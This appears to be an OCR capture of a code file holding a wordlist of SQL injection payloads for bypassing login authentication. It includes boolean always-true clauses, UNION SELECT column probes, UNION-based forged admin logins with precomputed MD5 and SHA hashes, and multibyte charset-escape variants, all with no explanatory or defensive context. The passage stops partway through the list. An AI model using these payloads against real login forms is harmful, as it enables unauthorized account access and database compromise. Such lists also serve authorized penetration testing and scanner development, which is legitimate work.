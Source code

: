                 ')||'2'LiKE('2
                ')||'2'LiKE'2'-- 2
                ')||'2'LiKE'2'#
                ')||'2'LiKE'2'/*
                ')||'2'LiKE'2'||('
                ')||(2)LiKE(2)-- 2
                ')||(2)LiKE(2)#
                ')||(2)LiKE(2)/*
                ')||(2)LiKE(2)||('
                ")||"2"LiKE("2
                ")||"2"LiKE"2"-- 2
                ")||"2"LiKE"2"#
                ")||"2"LiKE"2"/*
                ")||"2"LiKE"2"||("
                ")||(2)LiKE(2)-- 2
                ")||(2)LiKE(2)#
                ")||(2)LiKE(2)/*
                ")||(2)LiKE(2)||("
                ' UnION SELeCT 1,2`
                ' UnION SELeCT 1,2,3`
                ' UnION SELeCT 1,2,3,4`
                ' UnION SELeCT 1,2,3,4,5`
                " UnION SELeCT 1,2`
                " UnION SELeCT 1,2,3`
                " UnION SELeCT 1,2,3,4`
                " UnION SELeCT 1,2,3,4,5`
                ' or 1=1 limit 1 -- -+
                '="or'
                Pass1234.
                Pass1234.' AND 1=0 UniON SeleCT 'admin', 'fe1ff105bf807478a217ad4e378dc658
                Pass1234.' AND 1=0 UniON SeleCT 'admin', 'fe1ff105bf807478a217ad4e378dc658'#
                Pass1234.' AND 1=0 UniON ALL SeleCT 'admin', md5('Pass1234.
                Pass1234.' AND 1=0 UniON ALL SeleCT 'admin', md5('Pass1234.')#
                Pass1234.' AND 1=0 UniON SeleCT 'admin', '5b19a9e947ca0fee49995f2a8b359e1392adbb61
                Pass1234.' AND 1=0 UniON SeleCT 'admin', '5b19a9e947ca0fee49995f2a8b359e1392adbb61'#
                Pass1234.' and 1=0 union select 'admin',sha('Pass1234.
                Pass1234.' and 1=0 union select 'admin',sha('Pass1234.')#
                Pass1234." AND 1=0 UniON SeleCT "admin", "fe1ff105bf807478a217ad4e378dc658
                Pass1234." AND 1=0 UniON SeleCT "admin", "fe1ff105bf807478a217ad4e378dc658"#
                Pass1234." AND 1=0 UniON ALL SeleCT "admin", md5("Pass1234.
                Pass1234." AND 1=0 UniON ALL SeleCT "admin", md5("Pass1234.")#
                Pass1234." AND 1=0 UniON SeleCT "admin", "5b19a9e947ca0fee49995f2a8b359e1392adbb61
                Pass1234." AND 1=0 UniON SeleCT "admin", "5b19a9e947ca0fee49995f2a8b359e1392adbb61"#
                Pass1234." and 1=0 union select "admin",sha("Pass1234.
                Pass1234." and 1=0 union select "admin",sha("Pass1234.")#
                %A8%27 Or 1=1-- 2
                %8C%A8%27 Or 1=1-- 2
                %bf' Or 1=1 -- 2
                %A8%27 Or 1-- 2
                %8C%A8%27 Or 1-- 2
                %bf' Or 1-- 2
                %A8%27Or(1)-- 2
                %8C%A8%27Or(1)-- 2
                %bf'Or(1)-- 2
                %A8%27||1-- 2
                %8C%A8%27||1-- 2
                %bf'||1-- 2
                %A8%27) Or 1=1-- 2
                %8C%A8%27) Or 1=1-- 2
                %bf') Or 1=1 -- 2
                %A8%27) Or 1-- 2
                %8C%A8%27) Or 1-- 2
                %bf') Or 1-- 2
                %A8%27)Or(1)-- 2